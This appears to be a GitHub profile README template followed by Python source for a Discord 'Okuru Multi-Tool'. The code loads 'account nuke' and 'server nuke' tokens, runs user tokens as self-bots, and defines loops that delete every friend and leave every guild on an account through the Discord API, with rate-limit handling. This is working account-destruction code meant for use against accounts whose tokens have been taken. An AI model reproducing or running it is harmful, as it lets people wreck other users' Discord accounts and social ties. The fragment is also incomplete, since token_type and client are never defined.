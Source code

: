 - 👋 Hi, I’m @runyp
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


import os, requests, json, time, threading, random, string, base64, sys, asyncio
from itertools import cycle
from discord.ext import commands
from pypresence import Presence
from colorama import Fore


os.system(f'mode 106,26')
os.system(f'title [Okuru Multi-Tool] - Connected')

os.system('cls')
rich_presence = input(f'\u001b[38;5;21m[?]\u001b[38;5;15m Rich Presence [Y/N] : ')


def RichPresence():
    if rich_presence == "y" or rich_presence == "Y":
        try:
            RPC = Presence("828547839994888192") 
            RPC.connect() 
            RPC.update(details="Connected", large_image="multi_tool", small_image="multi_tool", large_text="Okuru Multi-Tool", start=time.time())
        except:
            pass

rich_presence = RichPresence()


with open('settings.json') as f:
    config = json.load(f)
token = config.get('accountnuketoken')
stoken = config.get('servernuketoken')
headers = {'authorization': token}
friends = open('Scraped/friends.json')
guilds = open('Scraped/guilds.json')

def Startup():
    if token_type == "user":
      client.run(stoken, bot=False)
    elif token_type == "bot":
      client.run(stoken)
def removefriends(u):
      while True:
        r = requests.delete(f"https://discord.com/api/v8/users/@me/relationships/{u}", headers=headers)
        if 'global' in r.text:
          time.sleep(r.json()['global'])
        else:
          break

def removeguilds(i):
    while True:
       r = requests.delete(f"https://discord.com/api/v8/users/@me/guilds/{i}", headers=headers)
       if 'global' in r.text:
            time.sleep(r.json()['global'])
       else:
          break

